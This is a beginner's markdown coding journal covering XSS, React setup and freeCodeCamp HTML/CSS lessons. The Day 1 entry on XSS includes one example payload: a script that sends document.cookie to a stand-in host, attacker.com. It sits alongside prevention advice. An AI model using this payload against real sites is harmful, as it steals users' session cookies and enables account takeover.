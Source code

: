 
# 100 Days of Coding - Log

## Start of Log

## Day 1 - July 24, 2019
**Subject:** Cross-Site Scripting
**Today's Progress:** I was able to understand the concept of Cross-Site Scripting (XSS), it's use and prevention.

**Thoughts:**
 XSS flaws occur whenever an applications includes untrusted data in a new web page without proper validation or escaping or updates a n existing web page w/ user supplied data using a browser api that can create Javascript.

It enables attackers to inject client-side scripts into web pages viewed by other users.

### What does XSS can do?
 - Malicious javascript can be used to do all sorts of malicious attacks because basically, it can access the api or anything that connects to the database. it also can affect the behavior of the page.
- it can be used to steal user cookies that allows the attacker to use the website pretendingto be that user that he stole.

### Example of injections to the `<input>` tags or in the URL:
	`><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>`.

or other HTML Tags like what i've tested `<i>` which transformed the remainder of the elements in the HTML Body into _Italic_.

### Preventions:
 - The preferred option is to properly escape untrusted data based on HTML context that the data will be placed into.
 - avoid passing untrusted data to Javascript and other browser APIs that can generate active content.
 
## 

## Day 2 - July 25, 2019

**Subject:** Javascript (ReactJS)

**Today's Progress:** I started creating my first react app with `npx create-react-app react-app` and created my own _index.js_ file.

**Thoughts:**

I Encountered a problem in running the `npm install -g create-react-app` and `npx create-react-app react-app` commands on my terminal so i had to surf on the web on how can i fix it. but luckily it was fixed by running the `sudo chown -r <path>` command.

  

I run my app with `npm start` on the terminal and prints _Hello World_

  

I put these lines of codes in my _index.js_ as a test for starting the app.

  

```
import React from 'react';
import ReactDOM from 'react-dom';

const App = () => {
return <div>Hello World</div>
};

ReactDOM.render(
<App />,
document.querySelector('#root')
);
```
<br>

|  import | React | from | 'react' |
|---------|-------|------|---------|
|gives me access to<br>codes from other files<br>or dependencies <br> that I will import.|The variable I want <br> to assign this import<br> to.| I'm about to specify<br>the name of the<br>library or file that I'm<br>importing from.|The name of the<br>dependency or <br> path to the file I<br>am importing.

###

`ReactDOM.render` takes the component and shows it on the screen.

##

## Day 3 - July 26, 2019

**Subject:** Basic HTML and HTML5

**Today's Progress:** I finished the first part of the Responsive Web Design Certification in [https://learn.freecodecamp.org/](https://learn.freecodecamp.org/) which is Basic HTML and HTML5.

![enter image description here](https://i.imgur.com/M3IzbHz.png)

##

## Day 4 - July 29, 2019

**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with changing color text up to sizing images.
![enter image description here](https://i.imgur.com/62Mubc2.png)

##

## Day 5 - July 30, 2019
**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with more than half of the topic. I've finished starting from Adding Borders around the Element up to Override styles in Subsequent CSS.

![enter image description here](https://i.imgur.com/s1dpdHM.png)


## Day 6 - July 31, 2019
**Subject:** Basic CSS

**Today's Progress:** I finished the course for the `Basic CSS` and tried to create variables that can be use all through the CSS file.

![enter image description here](https://i.imgur.com/eWT2INn.png)

## Day 7 - August 1, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I started working with the `Applied Visual Design` Course in the freecodecamp site and had reviewed about some of the techniques in HTML and CSS.

![enter image description here](https://i.imgur.com/GtaJ0kV.png)
![enter image description here](https://i.imgur.com/GH339YD.png)

## Day 8 - August 2, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` Course and learned new things that I haven't use in my coding career. I mostly use the hex code `#` or the `rgba()` for color specifications but recently here in the codecamp, I learned about the `hsl()` for _Hue, Saturation and Lightness_ which will be a good help when I proceed with the designing for future projects. I also tried to create a graphic object by using css codes. I managed to had a _Moon_ output as a graphic object and tried to manipulate other `HTML ELEMENTS`.

![enter image description here](https://i.imgur.com/PeZMwuK.png)

## Day 9 - August 5, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` and finished the whole course. I tried to create complex shape and animation by keyframes using CSS.

![Here are the remaining exercises on the course](https://i.imgur.com/avT7H53.png)

## Day 10 - August 6, 2019
**Subject:** Applied Accessibility / CSS

**Today's Progress:** I finished one module today which is `Applied Accessibility` in the freecodecamp and tried to put `<audio>` `<figure>` and other new tags.

![Full course of Applied Accessibility](https://i.imgur.com/uz1KhC0.png)

## Day 11 - August 7, 2019
**Subject:** 
	1. Responsive Web Design Principles
	2. CSS Flexbox

**Today's Progress:** I finished 2 modules in the Responsive Web Design Certification Course which is the 2 given subjects. I tried to use media queries to have a responsive page on any device size and also used flex grid to have proper responsive grid for html elements.

![Responsive Web Design Principles and CSS Flexbox](https://i.imgur.com/r9JzGhj.png)
